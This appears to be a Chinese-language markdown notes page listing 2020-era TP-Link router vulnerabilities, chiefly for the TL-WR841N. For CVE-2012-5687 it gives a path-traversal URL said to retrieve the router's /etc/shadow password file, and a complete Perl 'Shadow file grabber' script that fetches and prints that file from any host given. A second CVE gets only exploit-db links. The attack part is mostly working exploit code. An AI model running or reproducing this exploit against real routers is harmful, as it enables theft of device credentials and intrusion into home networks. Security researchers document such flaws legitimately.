 # TPlink漏洞概览（2020）

https://www.cvedetails.com/vendor/11936/Tp-link.html


# 841N
cve整理
https://www.cvedetails.com/product/23481/Tp-link-Tl-wr841n.html?vendor_id=11936


## CVE-2012-5687

- wr841N 3.13.9

**利用**

参考 https://packetstormsecurity.com/files/117749/TP-LINK-TL-WR841N-Local-File-Inclusion.html


访问http://192.168.0.1/help/../../../../../../../../etc/shadow 可以获取密码


指纹识别

```
#TP-LINK TL-WR841N Shadow file grabber#
#built by Pulse matan@madsec.co.il#
#enjoy#

use LWP::UserAgent;
$host = $ARGV[0];
chomp($host);
if($host !~ /http:\/\//) { $host = "http://$host"; };

my $ua = LWP::UserAgent->new;
$ua->timeout(30);
$lfi = "/help/../../../../../../../../etc/shadow";
$url = $host.$lfi;
$request = HTTP::Request->new('GET', $url); $response =
$ua->request($request); my $html = $response->content; if($html =~ /root/) {
print "root$' \n" ; }


```

## CVE-2012-6276
- wr841N 4.3.13.9

https://vulmon.com/exploitdetails?qidtp=exploitdb&qid=24504

https://www.exploit-db.com/exploits/24504

见 TP-Link TL-WA701N / TL-WA701ND  CVE-2012-5687  
